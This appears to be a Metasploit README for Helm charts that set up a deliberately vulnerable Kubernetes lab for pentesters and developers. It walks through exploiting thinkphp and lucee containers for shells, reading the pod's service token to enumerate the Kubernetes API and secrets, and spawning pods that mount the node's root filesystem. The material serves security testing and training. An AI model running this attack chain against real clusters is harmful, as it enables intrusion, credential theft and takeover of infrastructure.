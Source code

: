 ### Kubernetes

A collection of Helm charts have been created to aid both Metasploit developers and pentesters explore Metasploit's
Kubernetes support and exploitation capabilities.

## Usage

Kubernetes is installed on your host machine with either [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation),
[Minikube](https://minikube.sigs.k8s.io/docs/start/), [Docker Desktop](https://docs.docker.com/desktop/kubernetes/), or alternatives.

Next install the vulnerable charts and configuration:

```
docker-compose run setup
```

You can now use Metasploit from your host machine to target the intentionally vulnerable cluster.

To enter into an interactive environment with all of the required Helm/Kubectl tools available:

```
$ docker-compose run --service-ports setup /bin/sh
kubectl get all --all-namespaces
helm list
make install
```

## Available Charts

### secrets

Create multiple Kubernetes Secrets to test Metasploit's enumeration capabilities:
```
docker-compose run setup make secrets
```

### thinkphp

Run an intentionally vulnerable `thinkphp` application with full cluster access:

```
docker-compose run setup make thinkphp
```

Forwarding to host on port 9001:
```
docker-compose run --service-ports setup make forward-thinkphp
```

Exploitation will result in a Meterpreter session with full cluster access:
```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

### lucee

Run an intentionally vulnerable `lucee` application with a default service account with minimal access:
```
docker-compose run setup lucee
```

Forwarding to host on port 9002:
```
docker-compose run --service-ports setup make forward-lucee
```

Exploitation will result in a cmd shell session with a default service account with minimal access:
```
use linux/http/lucee_admin_imgprocess_file_write
run http://target_ip:9002 lhost=...
```

### Workflow Example

First configure the Kubernetes environment:
```
docker-compose run setup
```

Now expose the exploitable thinkphp application to your host machine. In the real world this step would not be required
as the application would be most likely already be publicly accessible:

```
docker-compose run forward-thinkphp
```

Open Metasploit and exploit the thinkphp container to open a Metarpreter session:

```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

The `auxiliary/cloud/kubernetes/enum_kubernetes` module can now be used to pivot through the compromised container to reach
the previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the compromised service token has the required permissions to create new pods, it is possible to open additional Metasploit sessions and
run one-of tasks with the `exploit/multi/kubernetes/exec` module. This newly created pod will also attempt to mount the Kubernetes Node's
root filesystem to `/host_mnt`, which may lead to additional attack vectors:

```
use exploit/multi/kubernetes/exec
run session=-1
```

See the corresponding documentation for each module for more detail.

## Kubernetes Dashboard

To access the Kubernetes dashboard:

```
$ docker-compose run --service-ports setup /bin/sh
make dashboard
make admin-token
make forward-dashboard
```

Now visit https://localhost:9443 and use the generated token to authenticate
